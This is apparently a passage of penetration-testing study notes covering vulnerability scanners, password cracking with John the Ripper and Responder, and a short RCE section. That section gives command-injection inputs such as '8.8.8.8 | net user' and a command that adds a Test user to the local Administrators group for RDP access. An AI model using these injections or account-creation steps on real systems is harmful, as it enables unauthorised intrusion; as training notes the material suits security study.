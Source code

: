 - Nessus
    - https://localhost:8834
    - admin:password

- GFI LandGuard (Windows)
    - Scan > Type the IP target > Full scan > Scan


##   Vulnerability Scanning Web Servers

- Nuclei
```bash
 nuclei -u https://IP
```

-  Nikto
```bash
nikto -h domain
```

##   RCE

- View a file
    - Example: `8.8.8.8&&type C:\\path`

- Find users
    - Example: `8.8.8.8 | net user`

- Add a user
    * Example: net localgroup Administrators Test /add
    * connect with RDP -> IP and user Test

-----

# Module 06: System Hacking

## Active Online Attack to Crack the System's Password

-  Responder
```bash
sudo ./Responder.py -I interface
```

- John The Ripper: Crack the hash
```bash
john hashes.txt
john --wordlist=/usr/--- hashes
john hashes --show
john --format=hash_type --wordlist=/usr/[...] hashes
john --format=Raw-MD5 --wordlist=/usr/[...] hashes #example with md5
```

- Hash identifier:
```bash
hash-identifier hash
```
